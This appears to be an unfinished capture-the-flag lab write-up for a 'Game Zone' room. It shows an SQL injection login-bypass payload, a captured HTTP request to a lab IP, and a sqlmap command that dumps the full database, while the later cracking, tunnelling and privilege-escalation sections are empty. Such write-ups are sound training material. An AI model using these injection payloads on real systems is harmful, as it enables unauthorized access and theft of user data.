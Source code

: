 # Game Zone
* Exploit SQLi manually and using SQLMap, crack users hashed password, us SSH tunnelling to reveal a hidden service, and use Metasploit payloads to gain root privileges.

## Obtain access via SQLi
* Taget host uses `SELECT * FROM users WHERE username = :username AND password := password` SQL query within login form.
* Manipulate query to login without legitimate credentials.
  * Username = ' or 1=1 -- -
  * Password = blank
* Changes SQL query to `SELECT * FROM users WHERE username =' or 1=1 -- - AND password := password`.
  * "1=1" = true.
  * "-- -" comments out remainder of query.
## Use SQLMap
* SQLMap is popular OSS for automatic SQL injection and database takeover tool.
* Pre-installed on Kali.
* Can be installed from [here](https://github.com/sqlmapproject/sqlmap).
### Use SQLMap to dump entire database
1. Intercept request to game review search feature using BurpSuite.
2. Save request into text file.
```
POST /portal.php HTTP/1.1
Host: 10.10.72.152
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.72.152
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.72.152/portal.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=9h551ujsnetbpkpeam2fsr2ki2
Connection: close

searchitem=test
```
* Pass request into SQLMap to use authenticated user session.
```
sqlmap -r request.txt --dbms=mysql --dump
```
  * `-r` uses intercepted request.
  * `--dbms` tells SQLMap the type of DBMS.
  * `--dump` attempts to output entire database.

## Crack Password with JohnTheRipper
* 
## Expose Services with Reverse SSH Tunnels

## Privilege Escalation with Metasploit
